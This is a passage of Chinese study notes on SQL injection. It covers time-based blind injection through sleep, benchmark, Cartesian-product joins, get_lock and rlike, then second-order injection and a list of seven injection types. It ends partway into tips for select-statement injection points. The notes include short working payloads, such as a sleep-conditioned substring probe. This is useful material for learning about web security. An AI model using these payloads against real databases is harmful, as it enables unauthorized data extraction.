 原理：

猜测某个条件，如果成立，就sleep 几秒  

 select id,username,password from user where username = 'admin' and if((select substr(username,1,1) from user where id = 1)='a',sleep(3),1);


a sleep进行延迟

b benchmark(count,exp)  

如果执行一个比较耗时的表达式，非常多的次数，加起来，就有可能造成延时的效果

c 笛卡尔积延迟法

  select count(*) from user A,user B;
  SELECT count (*) FROM information_schema.columns A,information_schema.columns B,information_schema.tables C;

 select count(*) from information_schema.tables,information_schema.columns b,user as c,user as d,user as e,user as f;

 if(2>1,延迟语句，1)


d get_lock函数延迟法

  select get_lock('a',3);

  条件：针对数据库连接的长连接有效   

  php 一般 解释执行完毕后，就会关闭数据库连接，下次请求的时候再次连接数据库 
  java 维护一个数据库连接池，长时间连接，需要处理请求时，拿出来进行sql查询，查询完后，放回数据库连接池


e rlike
  通过大量的正则匹配来实现延迟

#### 类型七：二次注入

条件：

1 无法直接注入，但是可以把要注入的数据插入数据库中

2 其他地方引用数据库中的数据，拼接sql语句时，默认不再进行过滤，直接拼接，造成曲线控制了sql语句

1 整数型注入/union联合注入
2 字符型注入
3 布尔盲注
4 报错注入
5 堆叠注入
6 时间盲注
7 二次注入


不同注入点的应对技巧

sql语句分为CURD操作

select 注入

1 当我们控制点在where 之后，则尝试 闭合参数引号，有回显就联合注入，有报错，就报错注入等等
